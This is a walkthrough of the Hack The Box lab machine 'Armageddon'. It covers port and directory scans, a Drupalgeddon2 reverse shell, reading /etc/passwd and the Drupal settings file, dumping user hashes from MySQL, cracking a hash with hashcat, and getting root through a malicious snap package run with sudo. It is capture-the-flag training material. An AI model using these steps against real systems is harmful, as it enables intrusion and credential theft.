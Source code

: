 ```yaml
---
title: "[HTB] Machine: Armageddon"
description: "[HTB] Machine: Armageddon"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: Armageddon"
    identifier: htb-machine-Armageddon
    parent: htb-machines-linux
    weight: 10
hero: images/Armageddon.png
tags: ["HTB", "drupal", "webshell", "upload", "hashcat", "mysql", "sudo", "snap", "snapcraft"]
---
```


# Armageddon
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.233
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 17:41 BST
Nmap scan report for 10.10.10.233 (10.10.10.233)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.20 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.233 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php -no-error
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.233
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] No status:               true
[+] Timeout:                 10s
===============================================================
2023/08/07 18:29:26 Starting gobuster in directory enumeration mode
===============================================================
/index.php            [Size: 7440]
/misc                 [Size: 233] [--> http://10.10.10.233/misc/]
/themes               [Size: 235] [--> http://10.10.10.233/themes/]
/modules              [Size: 236] [--> http://10.10.10.233/modules/]
/scripts              [Size: 236] [--> http://10.10.10.233/scripts/]
/sites                [Size: 234] [--> http://10.10.10.233/sites/]
/includes             [Size: 237] [--> http://10.10.10.233/includes/]
/install.php          [Size: 3172]
/profiles             [Size: 237] [--> http://10.10.10.233/profiles/]
/update.php           [Size: 4057]
/README.txt           [Size: 5382]
/robots.txt           [Size: 2189]
/cron.php             [Size: 7388]
/INSTALL.txt          [Size: 17995]
/LICENSE.txt          [Size: 18092]
/CHANGELOG.txt        [Size: 111613]
/xmlrpc.php           [Size: 42]
/COPYRIGHT.txt        [Size: 1481]

```
- Web Server
  - We see `Drupal 7`

![](./images/1.png)

![](./images/2.png)

## Foothold
- `Drupal` version and `searchsploit`

![](./images/4.png)

![](./images/3.png)

- We have `drupalgeddon3` and `drupalgeddon2`
  - Let's start with `drupalgeddon2` 
  - There is a [github post](https://github.com/dreadlocked/Drupalgeddon2)
  - Got reverse shell, but couldn't upgrade the shell

![](./images/5.png)

![](./images/6.png)

![](./images/8.png)

## User
- Enumerate users
```
bash-4.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```
- `grep -irln "password" .` in `/var/www/html`
  - We see `./sites/default/settings.php`
  - `drupaluser:CQHEy@9M*m23gBVj`

![](./images/7.png)

- Since these are `mysql` creds, let's check `db`
  - I have to run db commands from cmd, since I don't have PTY

```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'show tables;'
Tables_in_drupal
actions
authmap
batch
...
users
users_roles
variable
watchdog
```
```
bash-4.2$ mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'
<er -p'CQHEy@9M*m23gBVj' drupal -e 'select * from users;'                    
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0               NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu                     filtered_html   1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu a:1:{s:7:"overlay";i:1;}

```

- Let's crack the hash with `hashcat`
  - `$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt`
  - `hashcat -m 7900 hash /usr/share/wordlists/rockyou.txt`
  - `brucetherealadmin:booboo`

![](./images/9.png)

- `ssh` as `brucetherealadmin`

![](./images/10.png)

## Root
- Enumerate `sudo` rights
  - [GTFOBins](https://gtfobins.github.io/gtfobins/snap/)

![](./images/11.png)

- So I found this [post](https://notes.vulndev.io/wiki/redteam/privilege-escalation/misc-1) which crafts malicious `snap` package
  - The payload is from [this] dirtysock poc

![](./images/12.png)


- Let's run `sudo` according to `GTFOBins` with our malicious package and get root

![](./images/13.png)
